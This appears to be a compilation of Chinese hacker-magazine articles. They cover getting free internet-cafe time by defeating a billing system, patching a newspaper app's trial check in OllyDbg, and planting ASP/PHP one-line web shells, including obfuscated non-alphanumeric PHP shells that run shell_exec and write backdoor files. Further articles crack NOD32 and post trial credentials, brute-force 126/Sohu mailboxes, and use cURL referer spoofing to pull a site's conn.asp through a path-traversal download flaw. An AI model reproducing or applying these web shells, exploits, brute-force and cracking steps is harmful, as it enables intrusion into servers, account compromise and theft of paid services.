至于我们怎么用这3-20秒打开追影虚拟多桌面，先到QQ里，放到U盘里就OK了，然后呢？我们按 Ctrl+Left(←) 切换左桌面。这样做5分钟后要重新启动的，这里我们用到的工具是 NoShutdown 禁止关机工具，如图4，点上禁止就行了。可是这么做之后5分钟还是重新启动了，为什么呢？因为主机要验证的。为了防止，我们找到了这款网吧收费软件的源文件地址是 `C:\Program Files\HChCard`，如图5，看到一个叫 SERVER 的文件了吗？我们用记事本打开，如图6，我们在 `[用户信息]` 这项的 password 和 HSP2 后面的等号后面改成8个0，如图7，之后保存，看到一个叫 SET 的文件了吗？如图8。

理论上我们要用密码的，我们改完之后可以用空密码进入了，在系统参数那项点客户端异常，设置120分钟后锁屏，如图9，点应用，之后确定，然后 Ctrl+Up(↑) 切换默认桌面，再按 SHIFT+CTRL 切换智能ABC输入法，利用智能ABC的万能退出漏洞，依次输入 V，↑，Delete，Enter。好了，之后我们可以按 Ctrl+Left(←) 切换左桌面，这样就是真正的免费，真的一分钱不用花。

近来无事，想去上网，可是我们市里整个都换上了传说中的恒信E卡通，官网介绍如下：“网吧管理软件‘一卡通’是一款集实名上网、经营计费、安全监控三合一功能优秀的网吧管理软件。软件采用非接触IC卡刷卡先进技术，实现了网吧上网人员身份实名登记管理、计时计费全自动化、商品销售管理、收支管理、会员充值储值管理、网吧工作人员管理等强大的功能。技术上解决了上网身份登记和控制未成年人使用的问题，是公安部门统一实施的最佳方案。”可是当了小菜这么多年也会有一些不想花钱的冲动，毕竟一个小时3元，作为伸手党的我来说这无疑是一笔较大的开销。看红黑有一拽提到利用智能ABC的万能退出漏洞来达到免费上网的目的，也在不几天和谐了。所以，体验到一分钱不用花的我和同学，在期待下压力测试了这款网吧收费软件。

## 一，真正的免费，真的一分钱不用花

登录界面如图1，我们按 SHIFT+CTRL 切换智能ABC输入法，利用智能ABC的万能退出漏洞，依次输入 V，↑，Delete，Enter，一分钱不用花。我发现之前和谐的原因是因为没有后来切换到主桌面利用智能ABC的方框退出，漏洞再退出一次，因为还是原来的设置，所以5分钟后重新启动，只有设置完了再退出才可以。

## 二，没有智能ABC，那也无所谓

尝试了不花钱上网后，同学和我非常高兴，可是网吧不久就把智能ABC卸载了，我只好压力测试了种种办法。其中一种最简单的方法，就是花钱开票，打开右下角的开始-设置-控制面板，点 Windows 防火墙打开就OK了。说实话这种方法不是很完美，因为有的网吧并不是所有机子都有 Windows 防火墙，但简单却不可否认。防火墙把用户的计算机和公共网络分隔开，它检查到达防火墙两端的所有数据包，无论是进入还是发出，从而决定该拦截这个包还是将其放行，是保护个人计算机接入互联网的安全有效措施。

好吧，我只好用到这款软件了：网吧幽灵4.2。“网吧幽灵”同时也是一款网吧辅助工具。它能够禁网吧管理软件如“万象网管”等多款主流网吧管理软件的监视、控制。利用此款软件，能够起到：在客户端上关闭管理软件、解除网吧下载限制、破解电脑还原功能等作用。但具体情况得视网吧管理软件以及网管人员的反破解能力。打开数据拦截项，把所有的对号都点了，再找到进程 RunMe.exe 点开始拦截，如图10，这样可以达到防火墙一样的作用。

可是我家楼下的网吧收费系统过了几天就不好使了，我用网吧幽灵4.2拦截之后，发现进程 RunMe.exe 就自动退出，1秒后又创建了。我们怎么办呢？我们可以利用第一种方法的原理，实现这一步：就是打开 NoShutdown 禁止关机工具，然后打开追影虚拟多桌面，我们按 Ctrl+Left(←) 切换左桌面。我们找到了这款网吧收费软件的源文件地址是 `C:\Program Files\HChCard`，看到一个叫 SERVER 的文件了吗？我们用记事本打开，我们在 `[用户信息]` 这项的 password 和 HSP2 后面的等号后面改成8个0，之后保存，看到一个叫 SET 的文件了吗？理论上我们要用密码的，我们改完之后可以用空密码进入了，在系统参数那项点客户端异常，设置120分钟后锁屏，点应用，之后确定。在这之后我再打开网吧幽灵4.2，打开数据拦截项，把所有的对号都点了，再找到进程 RunMe.exe 点开始拦截，这样就把……

我设置的参数保存了，就实现了开卡-上机-“免费”上网了，当然我们要开卡的么！至于还有一种方法，就有点蛋疼了，说一下原理：就是参数设置完了，不用安装网吧幽灵4.2，在收费系统登录界面点管理员，用空密码进入。其实这种方法在主机显示是管理员登录，会被发现，但网管就不用每半个小时登录一次了。我的网管朋友对这招很赞，毕竟玩游戏的时候突然出现一个登录界面，会很怕怕的。

而且不是全部锁屏，很好很强大：当然我们不可能无限挂机，我们可以设置时间让电脑自动关机，进程定时工具 ProcTerminator；如图14，这款工具最大的优点是进程定时。所以我在所有压力下制作了《RunMe卸载工具》，把所有的工具打包，如图15，下载地址是 loser7758.ys168.com，呵呵，这样就可以玩游戏了，一分钱不花还在等待什么？如图16。最后，还是那句话：技术是死的，人是活的，我们不能局限于工具，思路很重要滴。

## 三，社工帮忙，网管来了也不怕

利用智能ABC的万能退出漏洞，在副桌面玩游戏，可是你发现了没有：右下角没有那个收费系统的角标，这样网管来了，一看就看出来了。所以用到我在红黑工具包里的一款工具：收费图标伪装精灵。打开，如图11，设置程序路径，可以是 ICO 图标，也可以是软件，点伪装后，如图12。我们要挂机怎么办？用到老版网吧挂机锁（黑客帝国版），如图13，界面支持副桌面。

## paper3000全球报纸阅读软件破解之道

以前常看大牛们入侵服务器的思路，那是很佩服。今天我能理直气壮地说：我也有这个思维，我也能做到。（当然这两者根本不能比，这里是比喻。）今天在某刊看到一个叫做 paper3000 的全球报纸阅读软件，于是开始尝试破解。

这个软件名声比较小，但这不是本篇文章的主要内容。我们通过这篇文章，让大家看破解过程，理解破解的思路。


全球报纸阅读软件，我复制下来，解压后如图1所示。解压下来是个安装程序，双击进行安装，安装很简单，一直 Next 就 OK 了。安装完成后双击桌面图标，如图2。

双击打开运行，出现了一个启动画面。看着界面，我在猜想：全球读报？图片截图？这样工作量很大呀……注意到窗口栏上写着“未注册”，如图3。


破解注册软件一直都是大家的乐趣。先不研究它从哪里获取新闻信息，既然是破解，一贯思路就是在注册码或授权码的地方做功夫。点击工具栏“购买”→“注册信息”，出现注册信息对话框（图4），上面显示机器码和注册码，还有“确定”“取消”按钮。


在注册码第一栏胡打一通，英文字母胡乱输入一遍，发现每个注册框之间没有自动联系，字符大小没有限制，也不实现自动转到下一个注册码输入框。

输入后点击“确定”，弹出消息框：“请输入整数”，如图5。还设置了 string 类型。关闭消息框，输入一些数字，点击“确定”，消息框不见了，重复几次都这样，看来是防止破解的一种手段。


既然第一步不顺利，那就来第二步：载入 PEiD 查看。结果如图6所示。


是 VC6 写的，没有加壳。当然也不能绝对说没有加壳，因为可能是 VC6 的伪装。第二步完成，进行第三步：载入 OD，打开 cnpaper.exe（paper3000 主程序）进行后续查找。

载入 cnpaper.exe 之后，等待 OD 解读。接下来准备查看程序的 ASCII 信息，在 OD 主代码窗口进行字符串参考查找，继续定位注册相关逻辑。

ASCII，一看到一大片 ASCII，如图8。


图7


图8

习惯地用鼠标滚轮滚了一下，首先看到了图9的数据，一比较，是软件中的报纸分类树信息，如图10。


图9


图10

找到了这点，就已经可以 DIY 软件中的报纸分类信息了，但这不是我们所要的，我们的目标是破解，所以我继续往下拉，看到了 URL，终于看到了曙光！如图11。


图11

马上就肯定了之前的猜想，的确只是引导我们打开 URL。那么，这份软件所收取的购买费用，就是这些 URL 的收集和软件的整理编写了。右键复制到剪贴板，整段表格，打开 Word，把它粘进去保存。不知何时起已经喜欢上用 Word 而不是 txt，因为 txt 显示英文字符时有点“机械”，审美疲劳啊，而 Word 不会。复制了其中一个 URL，这里复制了广州日报的，打开，如图12所示。


图12

至此，免费使用该软件功能的目的已经达到了，但没有对程序进行任何修改，所以不能说是“破解”。但很多情况下，比如破解不了或破解难度很大，只要得到了需要的信息，就足矣。这是一个思路。

关于 OD，发现 cnpaper.exe 又弹出一个消息框，图13。


图13

原来作者的手段是限定时间。看到这里，大家想到了什么？有了这个字符串，那么应该就能进 OD 阻止它的弹出而继续执行程序了吧？程序的按钮不多，应该没有别的限制了。接下来，我就继续破解这个 cnpaper.exe，在这个框框上做修改。在刚才打开的 ASCII 窗口 Ctrl+F 打开“寻找”窗口，输入“评估”，“确定”。不出所料，的确存在，图14。


图14

双击跟踪，图15所示。在修改前先把文件备份，这是必须的，要不把样本搞丢了就不好了。


图15

看到这串代码，第一反应就是晕。其中 00445BAF 是那段文字所在的区域。看到了这么多个 call，后面都跟了 jmp，我想：该不会用 call 来跳开吧？按道理不会。我再看，在最顶 00445B87 找到了个 jnz，点到 jnz，一个钩子延伸到 00445BAF 的下面，也就是说，它跳开了消息框显示……

现在未注册状态，它不跳，那么我们就用 jmp 给它强行跳吧。但有时并不是 jmp 天下无敌，还要根据情况来看……有时你会看到 jb 或 je，这是判断大小，那么就要根据实际把它改为相反，而不是马上改 jmp……

好了，把那句修改后的 jnz 代码选中，右键复制到可执行文件去保存就 OK 了。我运行了，没有问题。这样这个软件就算破解完成了……我的黑X ID是：vflanker，欢迎大家和我交流……

（文章中涉及的相关文件本期光盘已收录）

### 菜鸟浅谈“一句话木马”

很早以前就听说过但没真正见识过“一句话木马”，虽然一直以来也都是在走“小马传大马”的经典拿 WebShell 套路……于是便有了这篇《菜鸟浅谈“一句话木马”》，与众菜菜们共享。

“一句话木马”，顾名思义，就是内容只有一句话的木马，一般特指 asp 或 php 之类的网页木马，比如 `<?eval request("123456")%>`、`<?execute request("123456")%>` 和 `<?php eval($_POST[123456]);?>` 等。

- ① 服务器的 Guest 来宾账户（比如刚刚注册的账号）要有写入权限；
- ② 必须明确数据库的 URL 地址，并且数据库的格式必须是 asa 或 asp；
- ③ 如果不符合第②条，应将“一句话木马”保存为一个单独的 asp 文件或插入到其它 asp 文件中。

### 一、在本地计算机上搭建ASP解析环境

使用“超级小旋风AspWebServer1.0.exe”这个 1MB 多点儿的安装程序即可轻松搞定，安装成功之后运行……浏览器就会打开 `http://localhost/`……

`wwwroot\site80 2011-10-15 06:22:08` 之类的信息，其实这是打开了小旋风安装目录中 `wwwroot\site80\default.asp` 文件（比如完整路径是 `D:\Program Files\超级小旋风AspWebServer1.0\wwwroot\site80`），说明本地 ASP 运行环境已经搭建成功。选择“wwwroot目录”，作用是打开 wwwroot 目录，其中有 site80、site8001 和 site8002 三个目录；在此我们可以直接手工新建一个名为 Single_One.asp 的文件，其内容就是“一句话”代码：`<%eval request("123456")%>`（如图1）。


图1

#### 二、“黑夜荣光一句话木马.htm”登场

嗯，戏台子已经搭好，请出“黑夜荣光一句话木马.htm”，它是众多“一句话木马”的客户端程序之一，界面比较酷，双击后就会调用本地浏览器运行了。不过此时可能会遇到浏览器的一些善意提示，比如“为了有利于保护安全性，Internet Explorer 已限制此网页运行可以访问计算机的脚本或 ActiveX 控件……”。

不必理会，直接单击并选择“允许阻止的内容”，然后在“允许活动内容（如脚本和 ActiveX 控件）可能对您有所帮助，但是活动也可能危害您的计算机。您确实要让此文件运行活动内容吗？”提示窗口中点击“是”按钮即可。这样，我们就打开了“黑夜荣光一句话控制端”；每次使用时可先点击最下方的“生成服务端”按钮，就可以打开各种“一句话木马”的服务端代码，自行复制即可（如图2）。顺便说一句：一句话代码（`<%eval request("Lucifer")%>`）中的“Lucifer”就是连接密码，可自行修改（比如“123456”）。


图2

#### 三、连接“一句话木马”

在“黑夜荣光一句话控制端”的“服务端网址：”处输入的是“一句话木马”服务端地址，比如在第一步中新建的 Single_One.asp（`http://localhost/Single_One.asp`）；“登录密码：”是自己设置的“123456”；在下方原来提示“请输入你的ASP大马”处粘贴进去自己的大马内容（如图3）。


图3

OK，准备工作已经完全就绪，直接点击“服务端网址：”右边的“上传”按钮，很快就会进行“大马”的上传并且直接打开“大马”（如图4，“大马”被自动命名为“no22.asp”），输入“大马”的登录密码后就可以得到传说中的 WebShell 了（如图5）。


图4


图5

……“上传”按钮，呵呵，结果与刚才的完全一样：又生成了 no22.asp，得到了 WebShell。


图6

再来试验一下将“一句话木马”代码插入到某 ASP 文件中（比如 default.asp）的情况（如图6），其它设置都一样，只是将“服务端网址：”改成 `http://localhost/default.asp`。

```asp
<%eval request("123456")%>
```

（文章中涉及的相关工具本期光盘已收录）

## 菜鸟也来破解NOD32 4.0

自从开始接触免杀，对杀软要求渐渐高了起来，国内的那几款实在是不敢恭维……NOD32 是我最中意的一款，穷学生买不起，又不想频繁地换用户名密码，只好破解。

实际上，一年前就已经破解成功，这一年下来没出过问题，所以写出来分享下。由于对改过的杀软不怎么信任，所以拿官方软件下手。……但对 4.0 版本成功率是 100%。先去下载 4.0 官方文件；官网只提供最新的，百度一下就有，有 EAV 和 ESS 两种，前者只有杀毒能力而后者是安全套装。我下的是 ESS，点击安装，如图1。

安装时会提示输入注册码，选“以后再提示我激活”即可，如图2；接下来即可顺利完成安装，如图3。


图1


图2

首先说明下，该方法只适用于32位系统，支持 Win7（当然也支持 XP）……适用于 NOD32 4.0 和 4.2 版本。

先不着急重启。由于未输入注册码，每次开机都会提示注册，这个小问题只需修改注册表即可，打开：

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"D:\Program Files\ESET\ESET NOD32 Antivirus\EsetAct\essact.exe" -waitservice
改为
"D:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe" -waitservice
```

即可，如图4。重启之后打开主界面，如图5。


图4


图5

打开“设置-高级设置-病毒和间谍软件防护”，把“启用自我保护”选项取消，提示重启，如图6。重启后要破解器，所用补丁为外国友人制作，无需实时运行，也不要一个月运行一次。软件已做处理，作用效果是破坏倒计时模块，让使用时间始终留在31天。运行 ESET4 Box4EVER_v4.30A.exe，界面如图7。


图6


图7

点击 lock 即可，若弹出错误框，先点 unlock，再点 lock 即可。重启。重启后即可发现，原来恼人的注册窗口不见了。打开主窗口，可以发现变绿了，下方也出现了“剩余试用期31天”的字样，如图8。切换到“更新”选项，发现依旧无法更新，如图9。


图8


图9

此时，只剩最后一步。百度一下“nod32 用户名密码”，会出现大量试用的用户名密码，这些都只能使用一个月，如图10。随便选择一个，打开更新界面，选择“用户名和密码设置”，填入用户名和密码，我选的是 `EAV-51782350` / `k45a7vn-rx5`，如图11。

| 2011年10月02日 NOD32升级账号 | 2011年10月01日 NOD32升级账号 |
|---|---|
| 用户名/密码/适用版本（多组） | 用户名/密码/适用版本（多组） |

图10：NOD32账号信息列表


点击“更新病毒库”，成功更新，如图12，并且以后都不用输入用户名密码了，能够成功更新。


NOD32 试用版和完整版是没有区别的，大家尽可放心使用。有时候图标会变黄，是因为没有安装完整的系统补丁，可以不用管它。因为 NOD32 启动后无法正常关闭，这对玩黑的十分不便，我自己用 VB 编写了一个延时5秒启动的小程序，回车直接启动 NOD32，按 Esc 则不启动，代码如下。

```vb
Private Sub Form_KeyDown(KeyCode As Integer, Shift As Integer)
    If KeyCode = 13 Then  'Enter键
        Shell "D:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe"
    End If
    If KeyCode = 27 Then  'Esc键
    End If
End Sub
```

```vb
Private Sub Timer1_Timer()
    Dim a As Single
    a = Form1.Caption
    If a > 0 Then
        a = a - 1
        Form1.Caption = a
        If a = 0 Then
            Shell "D:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe"
        End If
    End If
End Sub
```

将这个程序在注册表内设为开机启动，删除原 egui 启动项即可。这个程序运行界面如图13a。最后，给大家看一下正常状态 NOD32 的内存占用，如图14。


| 映像名称 | 用户名 | CPU | 内存 | 描述 |
|---|---|---:|---:|---|
| csrss.exe |  | 03 | 1,276K |  |
| dwm.exe | Z | 00 | 8,280K | 桌面窗... |
| egui.exe | Z | 00 | 14,952K | ESET GUI |
| explorer.exe | Z | 01 | 26,992K | Windows... |
| nvtray.exe | Z | 00 | 2,280K | NVIDIA... |
| nvsvc.exe |  | 00 | 912K |  |

图14：进程占用示例

（文章中涉及的相关工具本期光盘已收录）

## php小马的“无域”

EchoEye/侯共涛

上班后时间少了很多，不过网络安全一直没丢，每天晚上都会研究一下。这天下班回家，好友 Hray 发了两篇文章给我，地址是：

http://www.thespanner.co.uk/2011/09/22/non-alphanumeric-code-in-php/  
http://h.ackack.net/tiny-php-shell.html

我一看，这小子太坏了，上来就整了两篇英文的。第一篇文章叫做“Non alphanumeric code in PHP”（我会把文章也传一份，方便暂时不能联网的朋友阅读）。由于这两篇是有联系的，第一个地址的文章是在第二个地址的基础上做的一些小变化，我就一起介绍了。

首先贴出文章中说的小马代码给大家看看：

```php
<?
$_=[];
$_["..."]="...";
$_="...";
<?=${${$_}["_"](${${$_}["__"]})?>
```

文章的名字翻译成中文是“没有字母和数字的 php 代码”，为什么我叫“无域”呢，主要是看到这个代码立刻让我想起以前看过“梦之光芒”写的关于 js 的“无域”，具体可以去 http://hi.baidu.com/monyer/blog/item/378fb8a1f3e8db8c461064f4.html 看看，这里由于和本文联系不大，就不多加介绍了。

我们先来看看效果，将上面代码保存为：3.php，然后访问 URL：

```text
http://127.0.0.1/3.php?_=shell_exec&__=dir
```

怎么样？dir 命令已经成功执行啦。大家肯定很好奇，为什么没有一个字符却可以成功执行代码，别着急，让我慢慢解释。首先必须说说 php 的一个特点，我们举个简单的例子：

```php
<?
$fuzz='phpinfo';
$fuzz();
?>
```

将上述代码保存为 php 文件访问后，会发现成功显示了 phpinfo 的内容，也就是说，我们的 `$fuzz` 这个变量被当作了函数执行。那么相同地，我们把思维扩展一下，如果我们提交一个变量是函数，然后写成上述形式，会不会也被执行呢？于是有了下面的代码：

```php
<?=(@$_GET[1])(@$_GET[2])?>
```


图1

简单解释下，这个代码分成两个部分，首先执行的是 `$_=@$_GET[1]`，也就是把 `GET[1]` 得到的结果赋值给 `$_`，然后是 `@$_($_GET[2])`，就是等于将第二个变量得到的字符作为 `GET[1]` 的参数。我们将上述文件保存为：eee.php，然后访问 `http://127.0.0.1/eee.php?1=shell_exec&2=dir`，结果如图2。可以看到结果和图1是一样的。这下大家也就大体可以猜到“无域”中代码的真实内容了。其实无论如何变换，最终还是要解密成 php 能识别的语言。


图2

下面我开始解释“无域”的代码。虽然我们看不到字符出现，但其实我们必须生成字符。从上面的介绍大家应该知道，我们生成的目标字符应该是“GET”，因为这样才可以把 GET 放到最后面去执行。在这里原文作者使用了一个相当牛的方法，通过 php 会自动将一个字符串转变成数组，并且赋值为 "Array" 的特点得到了5个字符。这下作者就有了“A”“r”“a”“y”可以使用了。但我们的目标是“GET”，下面就用到了另一个 php 的特点：

## 傻瓜黑客

```php
'a'|'b'; // c!
```

简单地说，就是字符“a”和“b”相加后得到的结果是 c。然后通过一系列的尝试，作者发现可通过构造字符并转成 16 进制来生成所需 GET 字符，最后进行总结。

```php
<?
$_=""; // 给 $_ 赋空值
$_["+"]=''; // 数组此时为空
$_="$_.""; // 到此，$_["+"] 的值为 Array
$_=($_["+"][" "]).($_["+"]["^"]).($_["+"]["^"]);
// ... 组合得到 $_ 为 GET
?>

<?=${'_'.${'_'}(${'_'&$_['__']})?>
```

就是说两个变量分别是“_”和“__”，到此可以理解最前面 shell_exec 与 dir 的用法。作者在此基础上继续加强，考虑直接构造字符串“eval”，以绕过函数限制。

```php
<?php
$___="";
$___=++$___+++$$___;
$_["+"]='';
$_="$_."";
$__=($_["+"][" "]).($_["+"]["^"]).($_["+"]).($___[$___]^"^");
echo $__;
?>
```

通过最后的 echo 显示出 `$__` 的内容。作者表示 E 和 V 还较容易，最难的是最后的“l”，于是决定写脚本来枚举。

```php
<?php
for ($i = 1; $i <= 29; $i++) {
  $a='y';
  $b=hex2asc($i);
  echo $b;
  $c=$a^$b;
  echo $c.$i.'<br>';
}
function hex2asc($str){
  $str = str_replace(" ", "", $str);
  for ($n=0; $n<strlen($str); $n+=2){
    $newstring .= pack("C", hexdec(substr($str,$n,2)));
  }
  return $newstring;
}
?>
```

其中 hex2asc 函数来自网络，这段代码通过循环测试组合结果；可用字符如“A、r、a、y”。对应 asc 的十六进制为“15”，再用转换工具输入“0x15”即可得到结果。

图3

接下来，我就根据我的思路写个代码：

```php
<?
$__='...';
$__=$__.$__.$__...;
...（混淆代码片段）
```

...只能认定这种方法不能使用 eval。如果有大牛有方法麻烦提供出来。不过就此放弃不是我的风格，eval 不行 fputs 应该可以吧。这里我们不再生成新的字符，因为实在太麻烦，就用 GET，把函数名什么的都放到参数中，通过一点修改代码为：

```php
<?
$__='...';
$__[$i]='...';
...（修改后的混淆代码）
?>
```

图4

这里的主要变化就是在最后面一句。这里由于 fputs 需要的参数较多，所以需要做点修改，但应该不难理解，基本都是根据以前的原型得到的。那么我们如何使用呢？我们可以访问 URL：

```text
?__=fputs&__=fopen&__=t.php&__=w&...
@eval($_POST[1]);
```

其中 t.php 就是生成的文件名啦，大家可以自己改。后面的就是一句话木马了，当然这里不能使用单引号，所以用数字效果会更好些。我们访问后就会在相同的目录生成一个 t.php 文件，内容就是：

```php
<?php @eval($_POST[1]);?>
```

图5

由于有了上面的代码，这里应该不难理解，于是我兴冲冲地在本机测试，结果显示如图5。我又尝试使用最前面的代码，然后参数写：`http://127.0.0.1/3.php?__=eval&__=aaa`，同样显示 Call to undefined function。试了半天也没成功，心里比较郁闷，只能认定这种方法不能使用 eval。

我就不再演示了，不过这里还是有点小遗憾：如果想生成文件必须要有相应的权限，当然大家可以多换一些目录试下，比如图片目录之类的，一般权限更大一些。到此，php 小马的“无域”的内容和我的一点诡异心得就已经全部介绍完毕啦。如果大家有什么问题，欢迎发邮件和我交流，我的 email 是 232789935@qq.com。（文章中涉及的相关代码本期光盘已收录）

## 今天你暴库了吗？！

年晓东

在近几年的入侵检测网站案例中，技巧性极高的“社工”绝对可以算得上是一道亮丽的风景线。很多时候，当入侵走到了貌似的“死胡同”时，社工往往以其四两拨千斤的巧力将重重阻隔化解于无形，令我等小菜艳羡不已！虽然不能像大牛那样“谈笑间，樯橹灰飞烟灭”，但这也不代表我们就只能看着热闹了，因为我们可以“暴”！

登录进入网站管理员信箱的情节，而这往往就成为了整个入侵过程的转折点……比如在邮箱中查到对方的重要信息，或者暴破得到的密码就是对方的 QQ 密码甚至是网站后台登录密码！因此我们绝对不应该耻于谈“暴”，或持一种嗤之以鼻的否定态度；的确，当入侵真的到了山穷水尽的时候，使用扫描工具挂上字典文件对管理员邮箱进行暴破或许会给我们带来一线转机。

图1

破解邮箱的工具并不是很多，像“飘雪”、“黑雨POP3邮箱密码暴力破解器”、还有“白狐mail大盗”、“咔嗒MailSee”等。小菜今天想跟大家共享一个使用易语言开发的名为“邮箱破解器”的纯绿色小软件，使用起来非常简单，以暴破 126 邮箱为例：

- 运行程序之后，最上方的“邮箱帐号”处填写待破解邮箱的用户名。
- 下方的“服务器”输入 `smtp.126.com`。
- 然后点击“导入密码”，选择字典文件（txt，每行一个密码）。
- 最后点击“开始破解”即可开始暴邮箱之旅。失败会显示叉号，成功会提示“密码已找到”。若未成功可继续更换字典文件尝试。

图2

经测试，“邮箱破解器”可以暴破 126 邮箱，也可以暴 Sohu（服务器需改为 `smtp.sohu.com`）；但在暴 QQ 邮箱时效果不佳，期待后续升级版本。

> （文章中涉及的相关文件本期光盘已收录）

### 命令行下的神器——cURL

第一次知道 cURL 是在 NetPatch 写的一篇渗透文章中，他用 cURL 来维持 SESSION，发现他用到的 cURL 功能很酷；后来把程序下载回来却一直没用上。前几天翻出资料后发现 cURL 功能强大、用法繁多，非常适合渗透场景，故整理常见用法分享给大家。

#### 一、cURL 简介

先来看 cURL 官方对它的介绍：

```text
curl is a command line tool for transferring data with URL syntax, supporting DICT, FILE, FTP, FTPS, GOPHER, HTTP, HTTPS, IMAP, IMAPS, LDAP, LDAPS, POP3, POP3S, RTMP, RTSP, SCP, SFTP, SMTP, SMTPS, TELNET and TFTP. curl supports SSL certificates, HTTP POST, HTTP PUT, FTP uploading, HTTP form based upload, proxies, cookies, user+password authentication (Basic, Digest, NTLM, Negotiate, kerberos...), file transfer resume, proxy tunneling and a busload of other useful tricks.
```

有些英语不太好的朋友可能看不太懂，下面弄点中文介绍：cURL 是利用 URL 语法在命令行方式下工作的文件传输工具；支持 HTTPS 认证、HTTP POST/PUT、FTP 上传、kerberos 认证、代理、cookies、用户密码认证、断点续传、proxy tunneling、IPv6、socks5 代理等，功能非常强大。

cURL 是瑞典 curl 组织开发的，官方网站为：http://curl.haxx.se/。

鉴于 cURL 的强大功能，有些操作系统已经集成了它，比如 IBM 的 AIX、Linux 和苹果公司的操作系统等。期待 Windows 操作系统集成 cURL 的那一天。

#### 二、获得 cURL

cURL 的官方网站为 http://curl.haxx.se/，官方网站的下载地址为 http://curl.haxx.se/download.htm。在这里可以下载到各种操作系统下可用的 cURL。目前 cURL 的最新版本为 7.22.0。在下载 cURL 的时候我遇到了点小困难。提供下载的 cURL 大多数是非 Windows 平台的，下载回来不能用（我要在 Windows 2003 系统中用）。经过尝试，发现 Win32-Generic 平台下的 `curl-7.22.0-devel-mingw32.zip` 可用（图1）。

具体下载地址为：http://www.gknw.net/mirror/curl/win32/curl-7.22.0-devel-mingw32.zip。点下载后却打不开，试了几次都无法下载，后来挂了个国外 VPN 才把程序下载了回来。把下载回来的 `curl-7.22.0-devel-mingw32.zip` 解压到 `C:\curl` 目录下，可执行文件 `curl.exe` 在 `bin` 目录下，如图2。打开命令提示符，切换到 `C:\curl\bin\` 目录下，cURL 就可以使用了。比如输入 `curl -V` 就能看到 cURL 的版本信息了，如图3。注意 cURL 的参数区分大小写。

### 三、cURL 的几个常用功能

在命令行下输入 `curl -help` 就会看到 cURL 的使用帮助，如图4。

看着那么多的参数就知道它功能非常丰富。输入 `curl --manual` 可以获得更详细的使用帮助。curl 的用法为：

```bash
curl [options] [URL...]
```

其中 options 是下载需要的参数，大约有 80 多个，curl 的各个功能完全是依靠这些参数完成的。由于 cURL 的功能和用法太多，本文不可能一一介绍完，就把在网上找到的几个常用功能来实际利用下。

- 1. 获得 html 源代码

输入 `curl http://www.baidu.com`，就会显示 `www.baidu.com` 首页的 html 源代码，如图5。

如果想把 html 源代码保存到一个文件里，也很轻松，输入 `curl -o baidu.html http://www.baidu.com` 就会在 `curl.exe` 当前目录下生成文件 `baidu.html`，文件内容是百度首页的 html 源代码，如图6。注意这里使用的参数是小写字母 `o`。

- 2. 下载文件

利用 cURL 可以在命令行下下载文件。用到的参数就是 `-o`，具体格式为：

```bash
curl -o filename URL
```

其中 filename 是文件下载回来的保存文件名，URL 是要下载文件的下载地址。比如我想下载个 QQ 的安装文件，文件下载地址为 `http://dl_dir.qq.com/qqfile/qq/QQ2011/QQ2011Beta4.exe`，保存为 `qq.exe`，就输入：`curl -o qq.exe http://dl_dir.qq.com/qqfile/qq/QQ2011/QQ2011Beta4.exe`。回车后就开始下载文件了，并且会显示要下载文件的总大小、已经下载的百分比和实时的下载速度……

如果输入的命令是：

```bash
curl -O http://dl_dir.qq.com/qqfile/qq/QQ2011/QQ2011Beta4.exe
```

（注意是大写的字母 `O`）下载文件的时候会以服务器上原有的文件名保存到本地，也就是输入上面的命令下载完成后会在 `curl.exe` 所在目录生成 `QQ2011Beta4.exe`，如图9。

- 3. 模拟浏览器

有些网站要求我们利用特定的浏览器去访问，用不同的浏览器浏览看到的内容不同。比如手机新浪网 `http://3g.sina.com.cn` 就要求用手机浏览器访问，用电脑上的 IE8 访问会自动跳转到新闻页，如图10。

网站是怎样知道我们用的什么浏览器呢？通过 user-agent。User Agent 中文名为用户代理，简称 UA，它是一个特殊字符串，能让服务器识别客户端操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、浏览器插件等信息。很多网站会根据 UA 返回不同页面，因此可能造成某些页面在某个浏览器中无法正常显示，但通过伪装 UA 可以绕过检测。

cURL 就可以伪造 user-agent 来进行访问。`3g.sina.com.cn` 不是需要手机浏览器访问吗，我们就用 cURL 来伪造一个手机浏览器的 user-agent 来访问。我在网上找到了一个手机浏览器的 user-agent 信息：

```text
NokiaN85/2.0628.0.0.1 S60/3.0 Profile/MIDP-2.0 Configuration/CLDC-1.1
```

cURL 伪造浏览器信息用的参数是 `-A`，输入如下命令：

```bash
curl -A "NokiaN85/2.0628.0.0.1 S60/3.0 Profile/MIDP-2.0 Configuration/CLDC-1.1" -o 3g.sina.com.cn.html http://3g.sina.com.cn
```

也就是用伪造的 user-agent 去访问 `http://3g.sina.com.cn`，把访问到的网页的 html 源代码保存为 `3g.sina.com.cn.html`。命令执行后在 `curl.exe` 所在的目录生成了 `3g.sina.com.cn.html`；用 IE8 打开，看到了内容，如图11。可以看到和直接用 IE8 访问得到的内容明显不同，正常看到了网页的内容（新闻）。

- 4. 伪造 referer

很多网站做了防盗链处理；对于某些网页或者下载链接，只有从特定的网页点击过来才能正常访问，否则提示非法链接等。比如一个网站存在任意文件下载漏洞，下载网站根目录下的 conn.asp 的地址为 `http://www.xxxrw.cn/down.asp?FileName=doc/%../../conn.asp`，但你直接用浏览器打开这个地址会看到如图12的错误页面，提示“非法链接”；需要修改 referer 信息后才能成功利用。

图12

以前我都是用 Mozilla Firefox 浏览器，然后用 refspoof 插件来修改 referer 信息。现在用 cURL 就可以修改 referer 信息了，cURL 通过 `-e` 参数可以任意指定 referer 信息。发现通过在 `http://www.xxxrw.cn/E_ReadNews.asp?NewsID=123` 这样的页面点下载链接可以正常下载文件。通过百度找到了一个页面 `http://www.xxxrw.cn/E_ReadNews.asp?NewsID=252`，就把 referer 信息修改为它了。输入命令：

```bash
curl -e "http://www.xxxrw.cn/E_ReadNews.asp?NewsID=252" -o conn.asp http://www.xxxrw.cn/down.asp?FileName=doc/%../../conn.asp
```

回车后下载了一个 452 字节大小的文件。来到 `C:\curl\bin` 目录下，用记事本打开下载回来的 `conn.asp`，得到了想要的东西，如图13。可以看到通过利用 cURL 伪造 referer 信息成功绕过了网站的防盗链，下载到了文件。

- 5. 操作 cookie

